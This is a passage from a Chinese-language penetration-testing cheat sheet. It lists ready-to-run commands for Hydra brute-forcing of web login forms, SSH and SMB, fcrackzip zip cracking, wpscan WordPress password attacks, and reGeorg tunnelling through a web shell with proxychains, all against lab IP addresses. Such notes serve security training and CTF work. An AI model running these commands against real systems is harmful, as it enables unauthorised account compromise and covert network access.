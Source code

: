   
和
```
^PASS^
```

  
分别代表的用户名和密码的变量，
```
Invalid
```

  
表示排除字段，即出现了这个字段表示爆破失败  

```
hydra -l rmichaels -P /usr/share/wordlists/fasttrack.txt -t 4 -vV 192.168.209.132 http-post-form &#34;/imfadministrator/index.php:user=^USER^&pass=^PASS^:Invalid&#34;

```

  
海德拉爆破ssh / rdp（win远程）  

```
hydra -l rmichaels -P /usr/share/wordlists/fasttrack.txt -t 4 -vV 192.168.209.132 ssh

```

  
海德拉爆破smb  

```
proxychains hydra -l Administrator -P pass.txt \
  -s 445 -t 4 -vV -m &#34;SMB&#34; \
  smb://192.168.138.138

```

### 2、zip压缩包密码爆破  

```
fcrackzip -D -p pass.txt -u t0msp4ssw0rdz.zip

```

### 3、wordpress后台爆破  

```
wpscan --url http://10.10.10.203/wordpress -e u -P /data/SecLists_Dict/Passwords/darkweb2017-top10000.txt

```

## 隐藏通信类  
  
代理reGeorg （http / https隧道）  

```
python2 reGeorgSocksProxy.py -u http://10.10.10.129:8000/tunnel.php # 这样会开启一个本地代理到8888端口，挂在后台
vi /etc/proxychains4.conf # 修改最后一行为代理的端口和ip地址

```

